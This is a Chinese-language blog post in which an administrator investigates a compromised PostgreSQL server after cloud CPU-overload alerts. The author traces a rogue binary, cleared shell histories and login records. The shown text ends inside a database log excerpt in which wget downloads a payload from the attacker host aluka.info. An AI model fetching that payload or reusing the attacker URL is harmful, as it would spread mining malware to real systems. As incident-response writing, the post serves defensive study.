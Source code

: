 ```yaml
---
title: 记一次 postgresql 斯嘉丽约翰逊攻击的排查
date: 2018-08-11 22:49:52
tags: "Linux"
comment: true
weight: 5
draft: false
categories: ["Security", "Linux"]
tags: ["Security", "Linux"]
lightgallery: true
thumbnail: http://image.knowing.asia/53d15464-67d2-4225-b98e-91bbdd132af7/72d33b84950ef1a25d3a74f60ab83873.png
---
```


### 背景

今天下午连续收到了腾讯云 CPU overload 报警

![CPU Usage](http://7xse6j.com1.z0.glb.clouddn.com/CPU%20Overload.png)

登服务器一看, 有个 postgres 账户跑的进程把 CPU 占满了，进程名特别奇怪。

![Htop info](http://7xse6j.com1.z0.glb.clouddn.com/htopinfo.png)




### 排查

于是根据 pid 到 `/proc/20619/stack` 下看到有一长串的 `[<ffffffff81841ff2>] entry_SYSCALL_64_fastpath+0x16/0x71` ，似乎短时间里发起大量的系统调用(prepare)并且还在不断增长。

接着 `cat /proc/20619/cmdline` 发现执行的是 `/var/lib/postgresql/9.5/main/Ac2p018-0` 这个坏家伙，查看发现这是个二进制文件，看不出问题，猜测和 postgresql 数据库有关，看起来不像是什么数据库维护脚本，第一反应是被数据库攻击了，于是查看 `/var/lib/postgresql/.bash_history` 和 `/var/lib/postgresql/.psql_history` 发现一条记录都没，显然是被手动清空了，更加确定是被 hack 了。担心已经被拿到 root 权限了，于是通过 `lastlog` 和 `last` 查看登录状态，所幸之前的 root 账户的 ip 都是我自己的，只有 postgres 这个账户看起来异常。

接着到 `/var/lib/postgresql/9.5/main/pg_log` 下查看数据库日志，抓到了几个奇怪的地方：

1. 有一个长连接持续从 `http://aluka.info/x6` 下载文件，

```
5144 --2018-08-11 15:47:30--  http://aluka.info/x6
5145 Resolving aluka.info (aluka.info)... 103.27.110.206
5146 Connecting to aluka.info (aluka.info)|103.27.110.206|:80... connected.
5147 HTTP request sent, awaiting response... 200 OK
5148 Length: 2758655 (2.6M)
5149 Saving to: ‘xmm’
5150
5151      0K .......... .......... .......... .......... ..........  1%  399K 7s
5152     50K .......... .......... .......... .......... ..........  3%  601K 5s
5153    100K .......... .......... .......... .......... ..........  5%  592K 5s
5154    150K .......... .......... .......... .......... ..........  7% 1.69M 4s
5155    200K .......... .......... .......... .......... ..........  9%  754K 4s
5156    250K .......... .......... .......... .......... .......... 11%  422K 4s
5157    300K .......... .......... .......... .......... .......... 12%  405K 4s
5158    350K .......... .......... .......... .......... .......... 14%  179K 5s
5159    400K .......... .......... .......... .......... .......... 16% 81.1K 8s
5160    450K .......... .......... .......... .......... .......... 18% 35.1K 13s
5161    500K .......... .......... .......... .......... .......... 20%  117K 13s
5162    550K .......... .......... .......... .......... .......... 22% 86.3K 14s
5163    600K .......... .......... .......... .......... .......... 24%  122K 14s
5164    650K .......... .......... .......... .......... .......... 25%  169K 13s
5165    700K .......... .......... .......... .......... .......... 27%  171K 13s
5166    750K .......... .......... .......... .......... .......... 29% 93.8K 13s
```